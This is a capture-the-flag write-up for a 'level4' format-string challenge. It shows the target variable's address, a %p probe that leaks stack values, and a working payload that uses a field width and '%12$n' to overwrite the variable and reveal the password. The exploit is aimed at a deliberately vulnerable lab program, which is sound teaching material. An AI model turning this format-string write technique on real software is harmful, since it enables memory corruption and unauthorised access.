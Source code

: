 # Level 4

## Initial Context

- One file: `level4`

## Solving the Challenge

Its the same challenge as `level3`, but using the 12th argument instead.

The `m` variable is at `0x08049810` (or `10 98 04 08` in LE).

```bash
$ python -c 'print "\x10\x98\x04\x08" + "%p " * 13' | ./level4
?? 0x 0x 0x 0x 0x 0x 0x 0x 0x 0x 0x 0x8049810 0x
#                                   ^ bingo
```

The value that `m` must be equals to is `0x1025544` or `16930116`.

Since the program only reads `512 bytes`, we need to use `printf`'s identifiers' minimum field width:

```python
# address
"\x10\x98\x04\x08"

# padding to produce 16930116 characters
+ "%16930112x"

# write using %n, at the twelfth argument using $12
+ "%12$n"
```

The program will `cat` the password for us, so no need to save the payload into a file, we can send it directly to the vulnerable program:

```bash
python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"' | ./level4
...b7ff26b0
<flag>
```
